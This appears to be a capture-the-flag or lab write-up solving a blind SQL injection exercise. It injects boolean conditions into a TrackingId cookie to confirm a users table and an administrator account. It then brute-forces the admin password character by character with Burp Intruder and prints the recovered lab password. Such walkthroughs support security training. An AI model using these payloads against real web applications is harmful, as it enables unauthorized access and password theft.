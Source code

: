 # Problem

![image](https://github.com/user-attachments/assets/ceed0dcb-2818-4eea-a02f-5c4799d80bfc)

# Solution

Start with **BurpSuite** and intercept the request, looking for the _tracking id_ cookie.

![image](https://github.com/user-attachments/assets/40a9db98-7833-4bb5-a369-fd96dc670cfc)

That in particular.

Then, run the following commands:

```
TrackingId=XrqN3VQk3nJs1nXc' AND '1'='1 // Verify that SQLi works
TrackingId=XrqN3VQk3nJs1nXc' AND '1'='2 // Verify it works, but this time no response message
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users LIMIT 1)='a // Verify users table is there
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users WHERE username='administrator')='a //Verify that admin is there
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>[1,2,3,...20])='a //Verify password length
TrackingId=XrqN3VQk3nJs1nXc' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a //Verify character is at that position in password
```

Take note of the last command, that's the payload we'll use to bruteforce this.

Speaking of, send the request to _Intruder_ and do the following:

**Intruder Presets:**

![image](https://github.com/user-attachments/assets/f71c23c8-b63f-448e-9aee-3c63f91dc778)

**Payloads:**

```
Payload 1: [1-20]
Payload 2: [a-z, 0-9]
```

**Brute Forcer Results**

![image](https://github.com/user-attachments/assets/3bd995b3-d6c2-4ee1-a04d-03f704783cb5)

**Username: administrator**

**Password: a2k8q5haz214i3smm5m1**
